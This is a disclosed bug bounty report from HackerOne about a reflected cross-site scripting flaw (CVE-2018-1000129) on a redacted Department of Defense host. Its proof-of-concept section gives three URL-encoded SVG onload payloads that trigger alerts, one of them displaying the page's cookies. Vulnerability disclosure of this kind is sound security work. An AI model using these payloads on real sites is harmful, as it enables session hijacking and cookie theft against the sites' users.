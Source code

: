 # [ CVE-2018-1000129 ] RXSS At `https://███████` via the URI

## Report Details
- **Report ID**: 2778412
- **URL**: https://hackerone.com/reports/2778412
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2024-10-12T05:41:26.857Z
- **Disclosed**: 2024-12-18T19:43:56.641Z

## Reporter
- **Username**: todayisnew-
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Hi `DOD` Team,

## System Host(s)
████████

CVE Numbers:

* # CVE-2018-1000129

# POC:

* https://█████%3Csvg%20onload=alert%28'1337'%29%3E?mimeType=text/html
* https://██████████%3Csvg%20onload=alert%28document.domain%29%3E?mimeType=text/html
* https://████████%3Csvg%20onload=alert%28document.cookie%29%3E?mimeType=text/html


* ████

## Impact

Attackers can execute scripts in a victim’s browser to steal the user's cookies, hijack user sessions, deface websites, insert hostile content, redirect users, hijack the user’s browser using malware, etc...

Thanks.

## Attachments
No attachments
